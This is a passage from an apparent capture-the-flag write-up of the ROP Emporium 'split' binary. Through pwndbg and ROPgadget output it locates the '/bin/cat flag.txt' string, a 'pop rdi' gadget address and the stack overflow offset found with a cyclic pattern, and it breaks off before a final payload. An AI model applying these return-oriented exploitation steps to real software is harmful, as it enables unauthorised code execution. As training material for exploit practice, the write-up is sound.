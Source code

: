 Let's search the string `/bin/cat flag.txt`.

```
pwndbg> search /bin/cat
Searching for value: '/bin/cat'
split           0x601060 '/bin/cat flag.txt'
```

We can link this string with our system call in order to read the `flag.txt` file.

In order to put this string into `rdi`, we will need a `pop rdi` gadget.

### `pop rdi` gadget

We can find the gadget using the `ROPgadget` utility. 

```
$ ROPgadget --binary split | grep "pop rdi ; ret"
0x00000000004007c3 : pop rdi ; ret
```

We can see that the address of the `pop rdi` gadget is `0x00000000004007c3`. 

### Cyclic pattern

We now have to find the offset using a cyclic pattern.

```
pwndbg> cyclic
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Let's provide this as input.

```
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
 RAX  0xb
 RBX  0
 RCX  0x7ffff7ea1887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  1
 RDI  0x7ffff7fa9a70 (_IO_stdfile_1_lock) ◂— 0
 RSI  1
 R8   0xa
 R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64
 R10  0x7ffff7d935e8 ◂— 0xf001200001a64
 R11  0x246
 R12  0x7fffffffdda8 —▸ 0x7fffffffdfed ◂— '/home/kunal/ropemporium/split/split'
 R13  0x400697 (main) ◂— push rbp
 R14  0
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x6161616161616165 ('eaaaaaaa')
 RSP  0x7fffffffdc88 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
 RIP  0x400741 (pwnme+89) ◂— ret
────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x400741 <pwnme+89>    ret                                <0x6161616161616166>
    ↓









```